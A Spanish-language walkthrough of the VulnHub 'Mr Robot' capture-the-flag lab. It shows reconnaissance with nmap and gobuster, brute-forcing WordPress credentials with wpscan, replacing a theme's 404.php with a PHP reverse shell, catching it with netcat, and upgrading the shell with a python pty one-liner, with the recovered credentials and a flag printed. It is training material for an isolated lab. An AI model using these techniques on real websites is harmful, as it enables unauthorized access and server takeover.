







# Mr Robot

- VirtualBox
- Kali Linux
- [MrRobot](https://www.vulnhub.com/entry/mr-robot-1,151/)

En este taller disponemos de dos máquinas conectadas a una misma red. 
*Para ello debemos crear un adaptador de red en VirtualBox y asignar dicho adaptador a ambas máquinas virtuales*

*Opcional: Puedes crear un adaptador solo-anfitrión para vincular las máquinas y aislarlas de tu entorno host, y si lo necesitas añadir un segundo adaptador NAT a tu máquina Kali para tener conexión a Internet*.

## i

Al principio desconocemos cualquier caracteristica de la máquina vulnerable *Mr.Robot* asi que lo primero es verificar que está en red con nuestra máquina atacante. Para saber esto podemos usar varios métodos y conocer la dirección IP de la máqina vulnerable.

Para conocer la mascara de red que vincula amabas máquinas podemos usar varios métodos:

1. Usar `ifconfig` para conocer la IP de la máquina atacante...  
```sh
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.3  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::5654:9b07:94ec:6372  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:d2:26:79  txqueuelen 1000  (Ethernet)
        RX packets 8  bytes 3446 (3.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 26  bytes 3276 (3.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
``` 
... y por lo tanto la máscara de red que vincula a las dos máquinas del taller.

2. Usar `arp-scan` para detectar todas las máquinas de la red local: 
```sh
$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:d2:26:79, IPv4: 10.10.10.3
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.10.10.2      08:00:27:0f:f0:02       (Unknown)
10.10.10.9      08:00:27:e4:18:8b       (Unknown)

2 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.470 seconds (103.64 hosts/sec). 2 responded
```
De este modo descubriremos las máquinas y también los adaptadores conectados.

3. La siguiente opción podría ser usar `nmap` para reconocer un poco más a fondo nuestra red:  
```sh
$ sudo nmap 10.10.10.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 11:53 EDT
Nmap scan report for 10.10.10.2
Host is up (0.00015s latency).
All 1000 scanned ports on 10.10.10.2 are in ignored states.
Not shown: 1000 filtered tcp ports (proto-unreach)
MAC Address: 08:00:27:0F:F0:02 (Oracle VirtualBox virtual NIC)

Nmap scan report for 10.10.10.9
Host is up (0.0012s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
MAC Address: 08:00:27:E4:18:8B (Oracle VirtualBox virtual NIC)

Nmap scan report for 10.10.10.3
Host is up (0.000026s latency).
All 1000 scanned ports on 10.10.10.3 are in ignored states.
Not shown: 1000 closed tcp ports (reset)

Nmap done: 256 IP addresses (3 hosts up) scanned in 33.44 seconds
```
Este es el resultado del escaneo de red completo.
Sabiendo que la IP 10.10.10.3 pertenece a la máquina virtual Kali, es fácil deducir que la IP 10.10.10.9 pertenece a la máquina vulnerable Mr.Robot.

4. Para intentar ser más precisos y acercarnos más a nuestro objetivo repetimos un escaneo con `nmap` ahora centrandonos en reconocer, con un escaneo de `ping`, las direcciones IP activas:  
```sh
$ sudo nmap -sP 10.10.10.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 12:14 EDT
Nmap scan report for 10.10.10.2
Host is up (0.00025s latency).
MAC Address: 08:00:27:0F:F0:02 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.10.10.9
Host is up (0.00041s latency).
MAC Address: 08:00:27:E4:18:8B (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.10.10.3
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 28.23 seconds
```
5. Otra herramienta que también puede darnos información sobre la arquitectura de nuestra red es `netdiscover`:  

```sh
$ netdiscover -i eth0 -r 10.10.10.0/24
```  


6. Podemos verificar la conexión entre máquina atacante y MrRobot con el comando `ping`:
```sh
ping 10.10.10.9 
PING 10.10.10.9 (10.10.10.9) 56(84) bytes of data.
64 bytes from 10.10.10.9: icmp_seq=1 ttl=64 time=0.411 ms
64 bytes from 10.10.10.9: icmp_seq=2 ttl=64 time=1.38 ms
64 bytes from 10.10.10.9: icmp_seq=3 ttl=64 time=1.25 ms
64 bytes from 10.10.10.9: icmp_seq=4 ttl=64 time=1.42 ms
64 bytes from 10.10.10.9: icmp_seq=5 ttl=64 time=1.27 ms
^C
--- 10.10.10.9 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4061ms
rtt min/avg/max/mdev = 0.411/1.145/1.416/0.372 ms
```

Con la información reunida haste este momento sabemos:
- la IP de nuestra máquina atacante
- la IP de nuestra máquina vulnerable y alguno de los puertos y servicios que se están ejecutando en ella.

```sh
Nmap scan report for 10.10.10.9
Host is up (0.0012s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
MAC Address: 08:00:27:E4:18:8B (Oracle VirtualBox virtual NIC)
```

Despúes de esta primera fase de reconocimiento pasaremos al escaneo activo del objetivo con el fin de detectar sus vulnerabilidades y brechas de seguridad.

Podemos comenzar por cerciorarnos de los puertos activos de la máquina vulnerable usando `nmap` con el modificador `-p-`:
```sh
$ sudo nmap -p- 10.10.10.9
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 12:42 EDT
Nmap scan report for 10.10.10.9
Host is up (0.00080s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
MAC Address: 08:00:27:E4:18:8B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 124.33 seconds
```
## ii

Ahora podemos acceder via web (el puerto 80 y el puerto 443 de la máquina vulnerable están activos). Abrir un navegador y acceder a la máquina vulnerable a traves de su IP:
`http://10.10.10.9` &rarr; puerto 80
`https://10.10.10.9` &rarr; puerto 443



Desde el navegador podremos `Ver el código fuente` o usar las `Herramientas para desarrolladores` del navegador para ver si el código del sitio que estamos visitando nos aporta algún tipo de información útil para nuestro objetivo.



En esta ocasión el código no parece aportar ninguna información útil.

Lo que si podemos ver es que la página inicial dispone varias opciones y un prompt que parece preparado para ingresar dichas opciones. Veamos una  auna dichas opciones.

- La primera `prepare` muestra un vídeo y el código fuente no aporta mucha más información.
- La segunda `fsociety` muestra también un vídeo y una secuencia de frases. Y si vemos el código fuente ahora vemos que ha cambiado. Así que convendría revisarlo por si aporta algún tipo de información útil.


Si nos fijamos veremos que la cadena de texto `wp-content` aparece en varias ocasiones. Y en el divisor `<footer>.....</footer>` podemos ver que el texto indica que la página está construida con Wordpress.

## iii
A continuación harems un escaneo activo de web para intentar recabar más información.
Para esto vamos a emplear la herramienta `gobuster`. Si no la encuentras en el menú de Kali, ingresa la palabra `gobuster` en la terminal.

```sh
$ gobuster     
Command 'gobuster' not found, but can be installed with:
sudo apt install gobuster
Do you want to install it? (N/y)
```
La terminal te sugerirá la acción para instalar dicho programa. Ingresa `y` y deja que se instale en nuevo programa.

Gobuster es una utilidad de fuerza bruta que puede buscar rutas, directorios o archivos, incluso ocultos, en servidores web mediante un diccionario (wordlist).

```sh
sudo gobuster dir -u http://10.10.10.9 -w /usr/share/dirb/wordlists/common.txt
```


Por los resultados obtenidos parece evidente que nos encontramos con un sitio web construido con Wordpress. Fijate en el buen numero de archivos y directorios que comienzan por el sufijo `wp_`.

Entre los resultados vemos que se hace referencia al archivo `robots.txt`, un archivo que en los sitios web determina, entre otras cosas, que permisos se le dan a los buscadores para indexar los contenidos del sitio.

Accedamos via web a dicho archivo:
```sh
http://10.10.10.9/robots.txt
```
Al abrir el archivo vemos que hemos hayado el primer *flag*:

```sh
User-agent: *
fsocity.dic
key-1-of-3.txt
```

> Primera bandera: `http://10.10.10.9/key-1-of-3.txt` &rarr; `key-1-of-3.txt` &rarr; `073403c8a58a1f80d943455fb30724b9`
> Hemos alcanzado el segundo objetivo CTF!!! `073403c8a58a1f80d943455fb30724b9`

También encontramos otro archivo que visitaremos y guardaremos por si tiene alguna utilidad posterior.
`http://10.10.10.9/fsocity.dic`

A continuación vamos a la carpeta `Downloads` y revisamos el archivo que acabamos de descargar.

Se puede ver claramente que se trata de un `diccionario` - una lista de palabras que podremos usar en ataques de fuerza bruta-.

Podemos usar el comando `wc` con el modificador `-l` que sirve para saber cuantas lineas tiene un archivo.

```sh
wc -l fsocity.dic
```
El resultado está de cerca de un millon de líneas
```sh
wc -l fsocity.dic
858160 fsocity.dic
```

Veamos el contenido ordenado alfabeticamente:

```sh
cat fsocity.dic | sort
```
El resultado muestra que existen muchas palabras repetidas lo que dado el gran numero de palabras retardaría enormemente el ataque que usará este diccionario. Intentemos arreglarlo.

Vamos a crear un nuevo archivo con palabras únicas. Para esto usaremos el comando `sort` de la siguiente manera:

```sh
sort -u fsocity.dic > fsociety.dic
```
Para comprobar el resultado puedes volver a usar el comando de conteo de lineas con el nuevo archivo creado:
```sh
wc -l fsociety.dic
11451 fsociety.dic
```

Vemos que el numero de líneas, por lo tanto el numero de palabras únicas, se ha reducido drásticamente.

## iv

Volviendo de nuevo a nuestras tareas CTF, probemos a aplicar el diccionario que acabamos de preparar para probar un ataque de fuerza bruta contra el sitio de Wordpress que hemos detectado en la máquina vulnerable.

Para esto usaremos la herramienta `wpscan` que está especialmente diseñada para analizar páginas creadas en Wordpress. Usaremos el nuevo diccionario para que trate de encontrar una combinación de usuario/contraseña que nos abra la puerta para poder ingresar a la administración de sitio web de nuestra máquina vulnerable.

```sh
wpscan --url http://10.10.10.9 --usernames fsociety.dic --passwords fsociety.dic
```
> Debido al tamaño del diccionario esta tarea puede demorarse bastante tiempo. (Truco opcional: puedes acortar el diccionario y quedarte solo con las palabras que empiezan por `e` - :' )

```sh
└─$ wpscan --url http://10.10.10.9 --usernames fsociety.txt --passwords fsociety.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.10.9/ [10.10.10.9]
[+] Started: Mon Sep 23 13:04:05 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.10.10.9/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.9/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.10.9/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.9/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.34 identified (Outdated, released on 2024-06-24).
 | Found By: Rss Generator (Aggressive Detection)
 |  - http://10.10.10.9/feed/, <generator>https://wordpress.org/?v=4.3.34</generator>
 |  - http://10.10.10.9/comments/feed/, <generator>https://wordpress.org/?v=4.3.34</generator>

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:05 <================> (137 / 137) 100.00% Time: 00:00:05

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc Multicall against 417 user/s
[SUCCESS] - elliot / ER28-0652                                                                 
[SUCCESS] - Elliot / ER28-0652                                                                 
[SUCCESS] - ELLIOT / ER28-0652                                                                 
Progress Time: 00:04:54 <==================================> (417 / 417) 100.00% Time: 00:04:54

[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652
 | Username: Elliot, Password: ER28-0652
 | Username: ELLIOT, Password: ER28-0652

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Sep 23 13:09:19 2024
[+] Requests Done: 557
[+] Cached Requests: 39
[+] Data Sent: 46.252 MB
[+] Data Received: 35.608 MB
[+] Memory used: 359.688 MB
[+] Elapsed time: 00:05:13
```

> :eye: Revisar la salida del comando puede aportar información de interes.

**Acceso al Panel de Control de WordPress**

usar el resultado del escaneo de `wpscan` para poder acceder a la administración del sitio.
Podemos acceder al panel de control del usuario en WordPress usando alguna de las combinaciones válidas encontradas durante en escaneo del sitio con `wpscan`, desde la URL `http://10.10.10.9/wp-admin` 

```sh
[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652
 | Username: Elliot, Password: ER28-0652
 | Username: ELLIOT, Password: ER28-0652
```


Es evidente que deberás conocer *un poco* la arquitectura de archivos y carpetas de Wordpress para poder avanzar con los resiultados obtenidos de este ataque de fuerza bruta.
Para resumir un sitio de Wordpress tiene dos partes básicas:
- una parte pública que es la que es visible para cualquier usuario del sitio
- una parte privada que es sólo accesible si el usuario tiene una cuenta en el sitio y dispone de un nombre de usuario y una contraseña. Asi desde la dirección `http://dominio.com/wp-admin` podra ingresar tus credenciales y acceder a la administración o backend del sitio, desde donde tener todo el control sobre el sistema de gestión de contenidos, publicaciones, temas,...

## v
Una vez en la administación de Wordpress usaremos el editor de temas integrado para crear nuestro `backdoor`. 

Para acceder al editor ir al menú lateral a `Apariencia` y ahí ir a `Editor`:


El Editor permite abrir, ver y editar el código de los archivos del tema activo. En este caso, WordPress está ejecutando un tema llamado "Twenty Fifteen", que podemos utilizar para insertar un backdoor de la siguiente manera:

- Dentro del editor, seleccionamos un archivo cualquiera como `content.php` o `author-bio.php` y lo reemplazamos con un código malicioso (backdoor). Para este caso editaremos el archivo `404.php`, que es la plantilla que se ejecuta cuando una página no se encuentra.

- Abrir el archivo de *404 Template* &rarr; `404.php`


En este punto, debemos buscar cómo obtener el código que nos permita el acceso al sistema o a ejecutar comandos en la máquina vulnerable. 

Volvemos a nuestro escritorio para preparar el código que usaremos para crear la puerta de ataque.

**Inserción de Shell Reversa en la Plantilla 404**

Dado que estamos trabajando con archivos `.php`, utilizaremos una **shell reversa en PHP**. Afortunadamente, Kali Linux incluye scripts de shell reversa en PHP por defecto.

1. Accedemos al directorio donde se encuentran las shells reversas en PHP (y otras):
   ```sh
   $ cd /usr/share/webshells/
   $ ls
     asp  aspx  cfm  jsp  laudanum  perl  php
   $ cd /usr/share/webshells/php
   $ ls
     findsocket   php-reverse-shell.php   simple-backdoor.php   php-backdoor.php   qsd-php-backdoor.php
   ```
2. Editamos el archivo de shell inversa que se adapta a nuestro escenario:
   ```bash
   sudo nano php-reverse-shell.php
   ```
3. Cambiamos la **IP** por nuestra dirección IP (OJO! IP de la máquina atacante, Kali! que es la que escucha) y el **puerto** por uno que deseemos, como el 4646.
   ```sh
   $ip = '10.10.10.3';  // CHANGE THIS (adaptalo a tu red)
   $port = 4646;       // CHANGE THIS
   ```
4. Guardamos el archivo. Para ver el contenido resultante podemos usar el comando `cat`:
   ```sh
   cat php-reverse-shell.php
   ```
5. Copiamos el contenido del archivo `php-reverse-shell.php`...
6. Volvemos a la administración de Wordpress al Editor y reemplazamos el contenido del archivo `404.php` con el código de nuestra shell reversa.
6. Guardamos los cambios presionando **Update File**.

## vi

**Ejecutar la Shell Reversa**

Volvemos a la terminal y activamos la escucha en el puerto especificado (4646). Para lo que ejecutamos el siguiente comando en Kali Linux:
```sh
nc -lvnp 4646
```
Después, accedemos a la URL del archivo `404.php` en el servidor de WordPress para activar la shell. 
Podemos aprovechar la información conseguida con `wp-scan`, o la info obtenida del codigo fuente de la página obtenida en el navegador.
Si ademas conoces la estructura de archivos de Wordpress encontrar la dirección será sencillo.

`http://10.10.10.9/wp-content/themes/twentyfifteen/404.php`

Una vez ejecutado, obtendremos una sesión de shell reversa en nuestro sistema.
```sh
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4646
listening on [any] 4646 ...
connect to [10.10.10.3] from (UNKNOWN) [10.10.10.9] 37040
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 20:54:26 up 1 day,  4:48,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```
(el símbolo `$` indica que tenemos la posibilidad de ejecutar desde aquí cualquier comando que se ejecutará en la máquina Mr.Robot)

## vii

**Mejorando la interactividad de la Shell**

Para mejorar la interactividad de la shell, podemos utilizar Python (un recurso bastante habitual en servidores y entornos de desarrollo de aplicaciones), si está disponible en el sistema objetivo:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Esto nos proporciona una shell más funcional.

```sh
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ 
```

## viii
**Exploración del sistema vulnerable y escalada de privilegios**
Podemos empezar por listar los archivos y directorios del objetivo. Recuerda que un uso adecuado del comando `ls` puede proporcionar mucha información útil.

```sh
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ ls -lah
ls -lah
total 84K
drwxr-xr-x 22 root root 4.0K Sep 16  2015 .
drwxr-xr-x 22 root root 4.0K Sep 16  2015 ..
drwxr-xr-x  2 root root 4.0K Sep 16  2015 bin
drwxr-xr-x  3 root root 4.0K Nov 13  2015 boot
drwxr-xr-x 13 root root 3.8K Sep 22 16:05 dev
drwxr-xr-x 77 root root 4.0K Sep 22 16:05 etc
drwxr-xr-x  3 root root 4.0K Nov 13  2015 home
lrwxrwxrwx  1 root root   33 Jun 24  2015 initrd.img -> boot/initrd.img-3.13.0-55-generic
drwxr-xr-x 16 root root 4.0K Jun 24  2015 lib
drwxr-xr-x  2 root root 4.0K Jun 24  2015 lib64
drwx------  2 root root  16K Jun 24  2015 lost+found
drwxr-xr-x  2 root root 4.0K Jun 24  2015 media
drwxr-xr-x  4 root root 4.0K Nov 13  2015 mnt
drwxr-xr-x  3 root root 4.0K Sep 16  2015 opt
dr-xr-xr-x 96 root root    0 Sep 22 16:06 proc
drwx------  3 root root 4.0K Nov 13  2015 root
drwxr-xr-x 14 root root  480 Sep 22 16:06 run
drwxr-xr-x  2 root root 4.0K Nov 13  2015 sbin
drwxr-xr-x  3 root root 4.0K Jun 24  2015 srv
dr-xr-xr-x 13 root root    0 Sep 22 16:05 sys
drwxrwxrwt  4 root root 4.0K Sep 22 16:06 tmp
